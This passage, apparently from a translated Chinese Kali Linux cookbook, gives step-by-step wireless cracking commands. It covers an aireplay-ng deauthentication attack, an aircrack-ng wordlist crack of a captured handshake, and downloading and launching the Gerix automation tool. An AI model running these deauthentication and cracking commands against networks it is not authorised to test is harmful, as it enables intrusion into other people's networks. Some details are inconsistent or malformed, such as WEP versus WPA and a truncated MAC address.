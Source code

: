 ```
Aireplay-ng --deauth 1 –a 09:AC:90:AB:78 –c 00:11:22:33:44:55 wlan0 
```

1.  最后我们运行 AirCrack 来破解 WEP 密码。`-w`选项允许我们指定单词列表的位置。我们使用事先命名的`.cap`文件。这里，文件名称是`wirelessattack.cap`。

```
Aircrack-ng –w ./wordlist.lst wirelessattack.cap
```

这就结束了。

#### 工作原理

在这个秘籍中，我们使用了 AirCrack 套件来破解无线网络的 WPA 密码。AirCrack 是最流行的 WPA 破解工具之一。AirCrack 通过收集 WPA 无线连接的封包来工作，之后它会通过算术分析数据来破解 WPA 加密密码。我们通过启动 AirCrack 并选择我们想要的接口来开始。下面，我们修改了 MAC 地址，这允许我们修改互联网上的身份，之后使用`airodump`搜索可用的无线网络来攻击。一旦我们找到了打算攻击的网络，我们使用`aireplay`来将我们的机器与正在攻击的无线设备的 MAC 地址关联。我们最后收集到了一些流量，之后暴力破解生成的 CAP 文件来获得无线密码。

### 9.3 无线网络自动化破解

这个秘籍中我们会使用 Gerix 将无线网络攻击自动化。Gerix 是AirCrack的自动化 GUI。Gerix 默认安装在 Kali Linux 中，并且能够加速我们的无线网络破解过程。

#### 准备

为了执行这个秘籍中的任务，需要Kali 终端窗口的经验。也需要受支持的配置好的无线网卡，用于封包注入。在无线网卡的例子中，封包注入涉及到发送封包，或将它注入到双方已经建立的连接中。

#### 操作步骤

让我们开始使用 Gerix 进行自动化的无线网络破解。首先下载它：

1.  使用`wget`，访问下面的网站并下载 Gerix：

```
wget https://bitbucket.org/Skin36/gerix-wifi-cracker-pyqt4/ downloads/gerix-wifi-cracker-master.rar
```

2.  文件下载好之后，我们需要从 RAR 文件中解压数据。

```
unrar x gerix-wifi-cracker-master.ra
```

3.  现在，为了保持文件一致，让我们将 Gerix 文件夹移动到` /usr/share `目录下，和其它渗透测试工具放到一起。

```
mv gerix-wifi-cracker-master /usr/share/gerix-wifi-cracker
```

4.  让我们访问 Gerix 所在的目录：

```
cd /usr/share/gerix-wifi-cracker
```

5.  我们键入下列命令来启动 Gerix：

```
python gerix.py
```
